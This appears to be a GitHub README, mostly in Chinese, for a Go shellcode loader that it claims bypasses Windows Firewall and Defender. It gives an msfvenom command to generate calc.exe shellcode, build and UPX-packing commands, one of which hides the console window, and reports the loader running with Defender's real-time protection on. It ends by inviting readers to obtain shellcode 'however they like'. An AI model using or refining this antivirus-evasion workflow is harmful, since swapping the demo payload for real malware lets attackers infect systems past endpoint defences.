 # goshellcode
golang run shellcode bypasses Windows Firewall and Defender

# 模拟打开windows的计算器

1.生成shellcode  
打开kali，打开一个 terminal，输入  
msfvenom -p windows/x64/exec CMD="calc.exe" -f hex -o calc.txt  
会在/home/kali/目录下生成calc.txt文件，里面是16进制shellcode  
![alt text](msf.png)

2.编译代码  
go build -ldflags="-w -s" -o sc.exe main.go && upx -8 sc.exe  
go build -ldflags="-H windowsgui -w -s" -o sc.exe main.go && upx -8 sc.exe （无边框）  


3.测试shellcode是否能过 Defender  
再次开启indow安全中心 实时保护，cmd下运行sc.exe 成功弹出计算器
![alt text](calc.png)
![alt text](cc.jpg)

4.至于shellcode以什么样的方式获取，可以尽情发挥了...
